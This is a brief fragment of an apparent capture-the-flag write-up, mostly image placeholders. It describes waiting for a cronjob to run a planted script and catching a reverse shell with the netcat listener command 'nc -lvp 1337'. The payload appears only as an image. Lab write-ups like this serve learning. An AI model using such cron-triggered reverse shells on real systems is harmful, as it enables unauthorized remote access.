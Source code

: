 ![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.051.jpeg)

and keep your nc listener ready : nc -lvp 1337 ![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.052.png)![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.053.png)now , wait for the cronjob to complete in one minute !

![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.054.jpeg)

and we got a connection !!

![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.055.png)

![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.056.png)
